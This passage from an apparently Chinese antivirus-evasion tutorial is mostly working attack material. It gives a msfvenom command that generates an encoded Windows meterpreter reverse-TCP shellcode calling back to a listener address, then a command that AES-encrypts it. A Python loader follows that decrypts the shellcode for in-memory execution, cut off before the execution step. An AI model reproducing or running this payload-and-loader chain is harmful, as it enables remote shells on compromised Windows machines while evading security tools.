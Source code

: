先用msfvenom生成一个raw格式的shellcode
```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=3333  -f raw > shellcode.raw
```

在`ShellcodeWrapper`文件夹中执行下面命令，其中`tidesec`为自己设置的key，加密方式设置为aes即可。
```
python shellcode_encoder.py -cpp -cs -py shellcode.raw tidesec aes
```

其中`encryptedShellcodeWrapper_aes.py`文件中的python源码如下

```
#!/usr/bin/python
# -*- coding: utf8 -*-
# Author: Arno0x0x, Twitter: @Arno0x0x
#
# You can create a windows executable: pyinstaller --onefile --noconsole multibyteEncodedShellcode.py
from Crypto.Cipher import AES
from ctypes import *
import base64

#------------------------------------------------------------------------
# data as a bytearray
# key as a string
def xor(data, key):
	l = len(key)
	keyAsInt = map(ord, key)
	return bytes(bytearray((
	    (data[i] ^ keyAsInt[i % l]) for i in range(0,len(data))
	)))

#------------------------------------------------------------------------
def unpad(s):
	"""PKCS7 padding removal"""
	return s[:-ord(s[len(s)-1:])]

#------------------------------------------------------------------------
def aesDecrypt(cipherText, key):
	"""Decrypt data with the provided key"""

	# Initialization Vector is in the first 16 bytes
	iv = cipherText[:AES.block_size]

	cipher = AES.new(key, AES.MODE_CBC, iv)
	return unpad(cipher.decrypt(cipherText[AES.block_size:]))


if __name__ == '__main__':

	encryptedShellcode = ("\x32\x1f\x96")
	key = "IePGfIakAIG4GxOkNEbyXA=="
	cipherType = "aes"

	# Decrypt the shellcode
	if cipherType == 'xor':
		shellcode = xor(bytearray(encryptedShellcode), key)
	elif cipherType == 'aes':
		key = base64.b64decode(key)
		shellcode = aesDecrypt(encryptedShellcode, key)
	else:
		print "[ERROR] Unknown cipher type"

	# Copy the shellcode to memory and invoke it
```